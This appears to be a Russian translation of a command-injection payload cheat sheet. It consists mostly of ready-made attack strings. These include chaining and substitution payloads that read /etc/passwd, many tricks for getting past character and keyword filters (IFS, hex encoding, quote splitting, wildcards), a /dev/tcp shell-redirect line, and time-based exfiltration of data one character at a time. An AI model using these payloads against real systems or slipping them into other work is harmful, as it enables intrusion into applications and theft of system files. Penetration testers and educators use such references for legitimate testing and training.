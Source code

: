 ## CMDi Внедрение команд

Внедрение команд — это уязвимость безопасности, которая позволяет злоумышленнику выполнять произвольные команды внутри уязвимого приложения.
__________________________________________________________________________________________________________________________________________________________________________________________________________________

Внедрение команд, также известное как внедрение оболочки, — это тип атаки, при которой злоумышленник может выполнять произвольные команды в операционной системе хоста через уязвимое приложение. Эта уязвимость может существовать, когда приложение передает небезопасные данные, предоставленные пользователем (формы, файлы cookie, HTTP-заголовки и т. д.), в системную оболочку. В этом контексте системная оболочка представляет собой интерфейс командной строки, который обрабатывает команды, которые необходимо выполнить, обычно в системах Unix или Linux.


Во многих интерфейсах командной строки, особенно в Unix-подобных системах, есть несколько символов, которые можно использовать для объединения команд или управления ими.

* ; (Точка с запятой): позволяет последовательно выполнять несколько команд.
* && (И): выполнить вторую команду только в том случае, если первая команда выполнена успешно (возвращает нулевой статус выхода).
* || (ИЛИ): выполнять вторую команду только в случае сбоя первой команды (возвращает ненулевой статус выхода).
* & (Фоновый режим): выполнение команды в фоновом режиме, позволяющее пользователю продолжать использовать оболочку.
* | (Канал): принимает выходные данные первой команды и использует их в качестве входных данных для второй команды.
  
```powershell
command1; command2   # Execute command1 and then command2
command1 && command2 # Execute command2 only if command1 succeeds
command1 || command2 # Execute command2 only if command1 fails
command1 & command2  # Execute command1 in the background
command1 | command2  # Pipe the output of command1 into command2
```

* Внедрение команд с помощью обратных кавычек.
  
  ```bash
  original_cmd_by_server `cat /etc/passwd`
  ```
* Внедрение команд с помощью замены
  
  ```bash
  original_cmd_by_server $(cat /etc/passwd)
  ```

## Обходы фильтров
### Обход без пробела
* `$IFS` — это специальная переменная оболочки, называемая внутренним разделителем полей. По умолчанию во многих оболочках он содержит пробельные символы (пробел, табуляция, новая строка). При использовании в команде оболочка интерпретирует `$IFS` как пространство. `$IFS` не работает напрямую в качестве разделителя в таких командах, как `ls`, `wget`; использовать `${IFS}` вместо.

 ```powershell
  cat${IFS}/etc/passwd
  ls${IFS}-la
  ```

* В некоторых оболочках раскрытие скобок генерирует произвольные строки. При выполнении оболочка будет рассматривать элементы внутри фигурных скобок как отдельные команды или аргументы.

  ```powershell
  {cat,/etc/passwd}
  ```

* Перенаправление ввода. Символ < сообщает оболочке прочитать содержимое указанного файла.

  ```powershell
  cat</etc/passwd
  sh</dev/tcp/127.0.0.1/4242
  ```
* Цитирование ANSI-C
  
  ```powershell
  X=$'uname\x20-a'&&$X
  ```

* Символ табуляции иногда можно использовать как альтернативу пробелам. В ASCII символ табуляции представлен шестнадцатеричным значением. 09.

  ```powershell
  ;ls%09-al%09/home
  ```

* В Windows %VARIABLE:~start,length% — это синтаксис, используемый для операций с подстроками над переменными среды.

  ```powershell
  ping%CommonProgramFiles:~10,-18%127.0.0.1
  ping%PROGRAMFILES:~10,-5%127.0.0.1
  ```

### Обход с возвратом линии

Команды также можно запускать последовательно с символами новой строки.

```bash
original_cmd_by_server
ls
```

### Обход с помощью обратной косой черты новой строки
* Команды можно разбить на части, используя обратную косую черту, за которой следует перевод строки.

  ```powershell
  $ cat /et\
  c/pa\
  sswd
  ```
* Форма в кодировке URL будет выглядеть так:

  ```powershell
  cat%20/et%5C%0Ac/pa%5C%0Asswd
  ```


### Обход фильтра символов через шестнадцатеричную кодировку

```powershell
swissky@crashlab:~$ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab:~$ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```

### Обход фильтра символов

Выполнение команд без обратной косой черты и косой черты — linux bash

```powershell
swissky@crashlab:~$ echo ${HOME:0:1}
/

swissky@crashlab:~$ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ echo . | tr '!-0' '"-1'
/

swissky@crashlab:~$ tr '!-0' '"-1' <<< .
/

swissky@crashlab:~$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```

## Обход слов из черного списка

* Обход с одинарной кавычкой

```powershell
w'h'o'am'i
wh''oami
'w'hoami
```
* Обход с двойной кавычкой
```powershell
w"h"o"am"i
wh""oami
```

* Обход с обратными кавычками
```powershell
wh``oami
```
* Обход с помощью обратной косой черты и косой черты
```powershell
w\ho\am\i
/\b\i\n/////s\h
```
* Обход с помощью $@

`$0`: Относится к имени сценария, если он запускается как сценарий. Если вы находитесь в сеансе интерактивной оболочки, $0 обычно дает имя оболочки.

```powershell
who$@ami
echo whoami|$0
```

* Обход с помощью $()

```powershell
who$()ami
who$(echo am)i
who`echo am`i
```

* Байпас с переменным расширением


```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

* Обход с подстановочными знаками

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```
## Эксфильтрация данных
### Эксфильтрация данных по времени

* Извлечение данных: посимвольно

 ```powershell
  swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
  real    0m5.007s
  user    0m0.000s
  sys 0m0.000s
  ```

* Incorrect value: no delay
  ```powershell
  swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
  real    0m0.002s
  user    0m0.000s
  sys 0m0.000s
  ```
  
## Инструменты

* commixproject/commix — автоматизированный универсальный инструмент для внедрения и использования команд ОС.

Ссылки
* [Внедрение и эксплуатация](https://hackware.ru/?p=1133)
* [portswigger](https://portswigger.net/web-security/all-labs#os-command-injection)

